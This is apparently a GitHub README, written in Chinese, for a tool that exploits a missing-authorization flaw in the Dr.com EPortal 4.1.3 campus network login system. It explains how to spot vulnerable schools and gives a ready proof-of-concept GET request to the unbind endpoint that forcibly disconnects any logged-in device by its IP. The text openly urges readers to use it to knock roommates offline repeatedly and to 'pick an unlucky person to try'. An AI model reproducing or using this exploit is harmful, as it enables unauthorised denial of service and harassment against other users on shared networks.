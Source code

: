 # Dr.com Eportal校园网认证系统未授权断网漏洞 -附脚本
<img width="1119" alt="image" src="https://github.com/Zaxk1337/DrcomCutdown/assets/164832393/f4107b1c-d880-4688-8a32-921a0b95406d"># DrcomCutdown

😎测试版本:
  **Guangzhou Hotspot Software Technology Co., Ltd. © 2020   EPortal4.1.3**

🥳效果:
  你是否受够了室友半夜两三点还在激情csgo？是否受够了每当你正要进入梦乡和小美大战800回合的时候，你的室友突然在游戏中破防爆粗口？
  <br>
  Fine，Using this！
  <br>
  如果你家大学正在使用此款计费系统，那么恭喜你🎉，用此脚本可以将校园网内任意已登陆设备强制踹下线，实现断网效果，如果你足够聪明，你可以自己对脚本进行二次开发，一直让b狗娘养的夜战哥处于断网状态，或者隔三差五给他断网恶心他，还你宿舍一个清明。☝️
 
## 识别Recon
那么如何识别你校是否也存在此漏洞？
打开你的校园网认证界面，如果在任意位置你找到了包含*Guangzhou Hotspot Software Technology Co., Ltd* 或者 *本XX系统由广州热点软件科技股份有限公司提供*的Powerby信息，那么🎉con graduation，你所在的校园认证系统中很有可能存在此漏洞。赶紧挑个倒霉蛋试试吧🥚


# 原理 -Principle
由于未对unbind路由做验证，导致任意知道受害者内网ip地址的人员，在使用一个简易将ip地址转换为int整型数字的算法后(已附脚本，算法在脚本里面)，可以实现无授权解绑目标mac地址，实现断网效果。

***POC:***
```
GET /eportal/portal/mac/unbind?wlan_user_mac=000000000000&wlan_user_ip={ipToParseIntValue计算后的ip整数值} HTTP/1.1
Host: {把我换成你家校园网登陆ip地址}:801
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
```

